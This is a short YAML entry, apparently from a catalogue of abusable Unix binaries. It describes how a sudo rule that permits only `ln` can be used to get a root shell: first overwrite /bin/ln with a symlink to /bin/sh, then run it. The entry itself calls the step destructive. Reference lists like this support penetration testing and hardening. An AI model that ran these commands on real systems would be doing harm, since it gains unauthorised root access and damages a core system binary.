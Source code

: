 ```yaml
---
description: This overrides `ln` itself with a symlink to a shell (or any other executable) that is to be executed as root, useful in case a `sudo` rule allows to only run `ln` by path. Warning, this is a destructive action.
functions:
  sudo:
    - code: |
        sudo ln -fs /bin/sh /bin/ln
        sudo ln
---
```

